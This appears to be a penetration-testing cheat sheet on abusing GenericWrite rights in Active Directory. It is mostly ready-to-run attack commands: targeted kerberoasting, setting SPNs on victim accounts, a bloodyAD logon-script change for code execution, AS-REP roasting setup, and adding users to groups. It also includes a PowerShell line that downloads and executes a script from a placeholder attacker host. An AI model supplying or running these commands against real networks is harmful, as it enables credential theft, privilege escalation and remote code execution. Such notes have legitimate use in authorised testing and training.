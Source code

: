 # Abusing GenericWrite (User over User)

If an user have GenericWrite over an user can get user nthash, kerberoast hash and change user properties, this properties include change logon script wich allows for RCE if user connects.

### Shadow credentials attack (get NThash):

Check Shadow credentials seccion -> https://github.com/ArtesOscuras/Notes/blob/main/abusing_DACLs/AddKeyCredentialLink%20(SHADOW%20CREDENTIALS).md

<br>

### Target kerberoast (get kerberoast hash):

You can make the user kerberoastable. User is required to be enabled. If it's not, enable it first. Additionally may require to sinc datetime with DC for kerberos interaction.

#### From Linux (externally, recomended):

With password -> `targetedKerberoast.py -v -d '<domain>' -u '<user you control>' -p '<password>'`

With nt hash  -> `targetedKerberoast.py -v -d '<domain>' -u '<user you control>' -H :<nt hash>`

<br>

Kerberos Authentication:

`getTGT.py <domain>/<user>:<password> -dc-ip <dc_ip>`

`export KRB5CCNAME=<file.ccache>`

`targetedKerberoast.py -v -d '<domain>' -u '<user>' -p '<password>' -k --dc-host <machine.domain>`

Note: If clock error appears "KRB_AP_ERR_SKEW" use kerberos sync command before.

<br>

#### From Windows (internally):

Load powerview module first -> `IEX (new-object net.webclient).downloadstring('http://<your_evil_ip_or_domain>/powerview.ps1')`

Make sur that the target account has no SPN -> `Get-DomainUser '<victimuser>' | Select serviceprincipalname`

Set the SPN -> `Set-DomainObject -Identity 'victimuser' -Set @{serviceprincipalname='nonexistent/BLAHBLAH'}`

Obtain a kerberoast hash -> `$User = Get-DomainUser '<victimuser>' ; $User | Get-DomainSPNTicket | fl`

<br>

### Enable user, or change properties:
#### (externally, from attacking machine)

You change can some properties. The easiest way to do it is using ldap_shell externally. 

`ldap_shell.py '<domain>/<user you control>:<password>' -dc-ip <ip>`

When inside use the interactive shell to change properties. Example "enable_account <user>".

Source: https://github.com/PShlyundin/ldap_shell

<br>

#### (internally, inside victim machine)

You can also modify those properties from inside windows machine using Set-DomainObject or Powerview.

Set-DomainObject: https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObject/

Powerview: https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1 

<br>

### Set logon script (get RCE if user login):
#### (externally, from attacking machine)

You can force the user to execute specific program or script, and if user logs into the system, that program will be executed.

`bloodyAD --host '<dc_ip>' -d '<domain>' -u '<controlled user>' -p '<password>' set object <target user> msTSInitialProgram -v '\\1.2.3.4\share\file.exe'`

Source: https://www.thehacker.recipes/ad/movement/dacl/logon-script

<br>

#### (internally, inside victim machine)

You can also do the same internally using Powerview or Set-DomainObject.

Source: https://legacy.thehacker.recipes/a-d/movement/dacl/logon-script

<br>


### Make user asreproastable:
#### (internally inside victim machine)

You can turn that user in to a asreproastable user setting "doesnotrequirepreauth" to "true"

`get-aduser targetusername | Set-ADAccountControl -doesnotrequirepreauth $true`

<br>

-------------------------------------------------

# Abusing GenericWrite (User over Group)

Technically if an user have GenericWrite over a grup can move user into that group and change some group properties.

### Set an user inside that group:
#### (externally, from attacking machine)
You can put users inside the that group, including your self.

Samba tools -> `net rpc group addmem '<target_group>' '<target_user>' -U '<domain>'/'<controlled_user>'%'<password>' -S <dc_ip>`

BloodyAD -> `bloodyAD --host '<ip>' -d '<domain>' -u '<controlled_user>' -p '<password>' add groupMember '<target_group>' '<target_user>'`

<br>

#### (internally, inside victim machine)

If you get inside the machine try it manually. If unsuccesfull you can also try with powerview.

`net group '<target_group>' <target_user> /add /domain`

Source: https://www.hackingarticles.in/genericwrite-active-directory-abuse/


